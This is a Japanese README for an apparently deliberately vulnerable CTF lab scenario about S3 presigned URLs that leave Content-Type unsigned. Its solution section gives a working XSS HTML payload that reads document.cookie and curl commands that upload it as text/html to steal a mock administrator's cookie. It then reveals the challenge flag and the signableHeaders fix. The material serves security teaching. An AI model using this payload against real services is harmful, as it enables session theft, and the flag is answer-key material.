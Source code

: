 # シナリオ 2 - 署名付き URL を用いた任意の HTML ファイルのアップロード

[English](./README.en.md) / [Top](../../README.md)

## 起動

```sh
cdk deploy Scenario2
# または
make start-Scenario2
```

## 概要

このシナリオは、署名付き URL を用いた任意の HTML ファイルのアップロードを模したアプリケーションと管理者がチャレンジの対象となります。チャレンジの最終的な目的は、問い合わせ窓口の先にいる管理者の Cookie を取得することです。

**類似のシナリオ**

- [シナリオ 1 - SDK を用いた任意の HTML ファイルのアップロード](../scenario1/README.md)
- [シナリオ 3 - POST Policy を用いた任意の HTML ファイルのアップロード](../scenario3/README.md)

管理者の動きは、シナリオ 1 同様に"Administrator Operation Mock"が模擬的に行います。管理者は、ユーザーから送られたアプリケーションの URL を閲覧し、その結果を`/delivery`の S3 に保存をします。

![Scenario2 のアーキテクチャ](design.png)

## Solution

ここからは、このシナリオの解決策を説明します。

### 動作の整理

対象となるアプリケーションでは、以下のような動作を行います。

1. User は Application のエンドポイントに対してファイルをアップロードするリクエストを送信します。
2. Application は、リクエストを受け取り、そのファイルを S3 にアップロード可能な署名付き URL を生成します。
   - この際、Application は、UUIDv4 を生成し、その UUIDv4 をファイル名として S3 にアップロード可能な署名付き URL を生成します。
3. User は、その署名付き URL を用いて、ファイルを S3 にアップロードします。
4. S3 は、そのファイルを受け取り、そのファイルを保存します。
5. Application は、そのファイルのファイル名を User に返却します。
6. User は、そのファイル名を用いて、そのファイルを閲覧することが可能です。

### ソースコードの確認

基本的にはシナリオ 1 と同様の実装となっていますが、`getSignedUrl` 関数を用いて、署名付き URL を生成しています。

`cdk/lib/scenario2/application/src/app.ts` の `/api/upload` に実装が行われています。

```typescript
server.post<{
  Body: {
    contentType: string;
    length: number;
  };
}>('/api/upload', async (request, reply) => {
  if (!request.body.contentType || !request.body.length) {
    return reply.code(400).send({ error: 'No file uploaded' });
  }

  if (request.body.length > 1024 * 1024 * 100) {
    return reply.code(400).send({ error: 'File too large' });
  }

  const allow = ['image/png', 'image/jpeg', 'image/gif'];
  if (!allow.includes(request.body.contentType)) {
    return reply.code(400).send({ error: 'Invalid file type' });
  }

  const filename = uuidv4();
  const s3 = new S3Client({});
  const command = new PutObjectCommand({
    Bucket: process.env.BUCKET_NAME,
    Key: `upload/${filename}`,
    ContentLength: request.body.length,
    ContentType: request.body.contentType,
  });

  const url = await getSignedUrl(s3, command, {
    expiresIn: 60 * 60 * 24,
  });
  return reply.header('content-type', 'application/json').send({
    url,
    filename,
  });
});
```

当該実装を見ていると、API は`contentType` と `length` の 2 つのパラメータを受信し、それらを用いて PutObject 用の署名付き URL を生成し、生成された署名付き URL をレスポンスとして、返却しています。

ただし、この実装には問題があります。それは、`getSignedUrl`関数において、`Content-Type`ヘッダーを署名するためには、`signableHeaders` に `Content-Type` が含める必要があり、署名付き URL を用いて S3 へのアップロードをする際に、`Content-Type` を変更することが可能です。

[参考](https://github.com/aws/aws-sdk-js-v3/blob/9b3fa28ae6bc7bf69f30a0f9e89eac4e058e4793/packages/polly-request-presigner/src/getSignedUrls.ts#L34-L42)

### 攻略の糸口

このチャレンジでは、`getSignedUrl` 関数において、`Content-Type`が、`signableHeaders` に含まれていないことがポイントとなります。

`signableHeaders` に含まれていない場合、署名付き URL を用いて S3 へのアップロードをする際に、`Content-Type` を変更することが可能であり、`text/html` に変更することで、任意の HTML ファイルをアップロードすることが可能です。

大まかな流れはシナリオ 1 と同様です。

以下の HTML ファイルを `xss.html` として保存します。

```html
<!-- xss.html -->
<html>
  <body>
    <script>
      document.getElementsByTagName('body')[0].innerHTML = `${document.cookie.split('=')[1]}`;
    </script>
  </body>
</html>
```

保存した HTML ファイルを用いて、以下のようなコマンドを実行します。

```sh
TARGET_HOST="....."
FILE=xss.html
LENGTH=$(stat -c %s $FILE)
URL=$(curl -X POST https://${TARGET_HOST}/api/upload \
  -H "Content-Type: application/json" \
  -d '{"contentType":"image/png","length":'$LENGTH'}') | jq -r '.url'
curl -X PUT $URL --upload-file $FILE -H "Content-Type: text/html"
```

その後、出力された URL を Report URL に入力することで、管理者の画面で任意の JavaScript を実行することが可能です。
実行後は、`/delivery/{uuid}`の S3 に保存されたファイルを閲覧することで、管理者の Cookie を含んだ HTML ファイルを閲覧することが可能です。

## チャレンジの回答

```
flag{fc6f76dd4368e888c1bc878b7750b374c891639f}
```

## アップローダーの修正方法

最後に、アップローダーの修正方法を説明します。

`cdk/lib/scenario2/application/src/app.ts` の `/api/upload` に実装が行われています。
これらを修正するためには、`getSignedUrl` 関数において、`signableHeaders` に `Content-Type` を含めるように修正する必要があります。

**Fix : signableHeaders に Content-Type を含める**

```typescript
const url = await getSignedUrl(s3, command, {
  expiresIn: 60 * 60 * 24,
  signableHeaders: ['Content-Type'],
});
```

この修正により、`Content-Type` が `signableHeaders` に含まれるようになり、署名付き URL を用いて S3 へのアップロードをする際に、`Content-Type` を変更することができなくなります。

